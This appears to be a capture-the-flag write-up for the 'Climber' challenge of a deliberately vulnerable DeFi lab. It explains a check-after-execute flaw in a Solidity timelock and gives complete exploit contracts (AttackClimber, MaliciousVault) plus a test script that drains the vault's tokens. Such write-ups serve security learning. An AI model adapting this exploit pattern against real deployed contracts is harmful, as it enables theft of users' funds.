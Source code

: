 # 12 - Climber

```solidity

// ClimberVault.sol
function sweepFunds(address tokenAddress) external onlySweeper {
    IERC20 token = IERC20(tokenAddress);
    require(token.transfer(_sweeper, token.balanceOf(address(this))), "Transfer failed");
}
```

We want to drain the fund by calling `sweepFunds` function.

To bypass `onlySweeper` modifer, we will upgrade the implementation contract address to our **`MaliciousVault`** contract.



```solidity
// ClimberVault.sol
function initialize(
    address admin,
    address proposer,
    address sweeper
) external initializer {
    // Initialize inheritance chain
    __Ownable_init();
    __UUPSUpgradeable_init();

    // Deploy timelock and transfer ownership to it
    transferOwnership(address(new ClimberTimelock(admin, proposer)));

    _setSweeper(sweeper);
    _setLastWithdrawal(block.timestamp);
    _lastWithdrawalTimestamp = block.timestamp;
}
```

The initial `owner` right after the deployment is an instance of **`ClimberTimelock`** contract.



```solidity
// ClimberTimelock.sol
function execute(
    address[] calldata targets,
    uint256[] calldata values,
    bytes[] calldata dataElements,
    bytes32 salt
) external payable {
    require(targets.length > 0, "Must provide at least one target");
    require(targets.length == values.length);
    require(targets.length == dataElements.length);

    bytes32 id = getOperationId(targets, values, dataElements, salt);

    for (uint8 i = 0; i < targets.length; i++) {
        targets[i].functionCallWithValue(dataElements[i], values[i]);
    }

    require(getOperationState(id) == OperationState.ReadyForExecution);
    operations[id].executed = true;
}
```

From **`ClimberTimelock`** we can make external calls by calling `execute` function.

But because execute function does not keep **C-E-I pattern** properly, \
(because it checks if the executing operation is schedule after the execution)\
we can first do whatever we want and schedule our operations right before it gets to the last `require` statement.

```solidity
// AccessControl.sol
function grantRole(bytes32 role, address account) public virtual override onlyRole(getRoleAdmin(role)) {
    _grantRole(role, account);
}
```

To schedule our operations, we will grant `PROPOSER_ROLE` to our attacker acount.



```solidity
// ClimberTimelock.sol
constructor(address admin, address proposer) {
    _setRoleAdmin(ADMIN_ROLE, ADMIN_ROLE);
    _setRoleAdmin(PROPOSER_ROLE, ADMIN_ROLE);

    // deployer + self administration
    _setupRole(ADMIN_ROLE, admin);
    _setupRole(ADMIN_ROLE, address(this));

    _setupRole(PROPOSER_ROLE, proposer);
}
```

We can do this simply by calling `grantRole` function, since the contract itself has `ADMIN_ROLE`.



```solidity
function updateDelay(uint64 newDelay) external {
    require(msg.sender == address(this), "Caller must be timelock itself");
    require(newDelay <= 14 days, "Delay must be 14 days or less");
    delay = newDelay;
}
```

And to execute multiple operations, we will first update the delay to `0`.



```solidity
// ClimberVault.sol
function upgradeTo(address newImplementation) external virtual onlyProxy {
    _authorizeUpgrade(newImplementation);
    _upgradeToAndCallUUPS(newImplementation, new bytes(0), false);
}
```

Finally, we will upgrade the implementation contract to our malicious contract that implements `sweepFunds` function without any restriction.



1. **`ClimberTimelock`** \
   \-> make the delay `0` so we can execute multiple operations
2. **`ClimberTimelock`**\
   \-> grant `PROPOSER_ROLE` to our `attacker` account\
   (so we can&#x20;
3. **`ClimberVault`**\
   \-> upgrade Implementation address to our **`MaliciousVault`** contract
4. **`ClimberTimelock`**\
   \-> schedule these operations so we can pass the last `require` condition in `execute`
5. **`ClimberVault`**\
   **``**-> delegatecall `sweepFunds` function in **`MaliciousVault`**\
   **``**(Now all the tokens are moved to **`AttackClimber`** from **`ClimberVault`**)
6. **`AttackClimber`**\
   \-> move all funds to `attacker` account\


## Solution

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import "./ClimberTimelock.sol";
import "./ClimberVault.sol";

contract AttackClimber {
    ClimberVault vault;
    ClimberTimelock timelock;
    MaliciousVault newVault;
    IERC20 token;
    address[] targets;
    uint256[] values;
    bytes[] dataElements;
    bytes32 salt = 0x0;

    constructor(
        ClimberVault _vault,
        ClimberTimelock _timelock,
        MaliciousVault _newVault,
        IERC20 _token
    ) {
        vault = _vault;
        timelock = _timelock;
        newVault = _newVault;
        token = _token;
    }

    function attack() external {
        /*============ calldata ============*/
        // 1) update delay to 0
        targets.push(address(timelock));
        values.push(0);
        dataElements.push(abi.encodeWithSignature("updateDelay(uint64)", 0));

        // 2) give attacker PROPSER_ROLE
        targets.push(address(timelock));
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );

        // 3) upgrade ClimberVault Implemenation to AttackClimber contract
        targets.push(address(vault));
        values.push(0);
        dataElements.push(abi.encodeWithSignature("upgradeTo(address)", address(newVault)));

        // 4) schedule these function calls

        // targets.push(address(timelock));
        // values.push(0);
        // @dev this causes recursive issue
        // dataElements.push(abi.encodeWithSignatrue("schedule(address[],uint256[],bytes[])", targets, values, dataElements));

        targets.push(address(this));
        values.push(0);
        dataElements.push(abi.encodeWithSignature("schedule()"));

        /*============ execute ============*/
        timelock.execute(targets, values, dataElements, salt);

        /*============ drain the DVT balance from ClimberVault ============*/

        vault.sweepFunds(address(token));
        token.transfer(msg.sender, token.balanceOf(address(this)));
    }

    function schedule() external {
        timelock.schedule(targets, values, dataElements, salt);
    }
}

contract MaliciousVault is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    // Same storage layout as "ClimberVault"
    uint256 public constant WITHDRAWAL_LIMIT = 1 ether;
    uint256 public constant WAITING_PERIOD = 15 days;

    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    constructor() {}

    function sweepFunds(address tokenAddress) external {
        IERC20 token = IERC20(tokenAddress);
        token.transfer(msg.sender, token.balanceOf(address(this)));
    }

    // need to override virtual function
    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}
```

```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const MaliciousVaultFactory = await (await ethers.getContractFactory('MaliciousVault')).connect(attacker);
  const newVault = await MaliciousVaultFactory.deploy();
  await newVault.deployed();

  const AttackClimberFactory = await (await ethers.getContractFactory('AttackClimber')).connect(attacker);
  const attackClimber = await AttackClimberFactory.deploy(
    this.vault.address,
    this.timelock.address,
    newVault.address,
    this.token.address
  );
  await attackClimber.deployed();

  await (await attackClimber.attack()).wait();
});
```

Done! 😎
